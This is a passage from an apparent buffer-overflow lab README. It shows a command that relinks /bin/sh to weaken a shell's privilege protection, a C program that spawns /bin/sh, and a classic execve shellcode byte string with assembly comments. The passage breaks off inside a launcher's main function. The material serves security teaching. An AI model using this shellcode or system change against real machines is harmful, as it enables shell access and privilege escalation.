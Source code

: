 - **Configuring /bin/sh (Ubuntu 16.04 VM only)**

  - ```bash
    $ sudo ln -sf /bin/zsh /bin/sh
    ```

<br/>

<br/>

### Running Shellcode

```c
/* shellcode.c */

#include <stdio.h>
int main() {
    char*name[2];
    //name[0] = "/bin/zsh";
    name[0] = "/bin/sh";
    name[1] = NULL;
    execve(name[0], name, NULL);
}
```

<p align="center">
    <img src="README.assets/BufferOverflow-shellcode.png"/>
    <div align="center">shellcode.c Result</div>
</p>

<br/>

```c
/* call_shellcode.c */

/* A program that launches a shell using shellcode */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char code[] =
    "\x31\xc0" /* Line 1: xorl %eax,%eax */
    "\x50"     /* Line 2: pushl %eax */
    "\x68"
    "//sh" /* Line 3: pushl $0x68732f2f */
    "\x68"
    "/bin"     /* Line 4: pushl $0x6e69622f */
    "\x89\xe3" /* Line 5: movl %esp,%ebx */
    "\x50"     /* Line 6: pushl %eax */
    "\x53"     /* Line 7: pushl %ebx */
    "\x89\xe1" /* Line 8: movl %esp,%ecx */
    "\x99"     /* Line 9: cdq */
    "\xb0\x0b" /* Line 10: movb $0x0b,%al */
    "\xcd\x80" /* Line 11: int $0x80 */
    ;

int main(int argc, char **argv)
{
```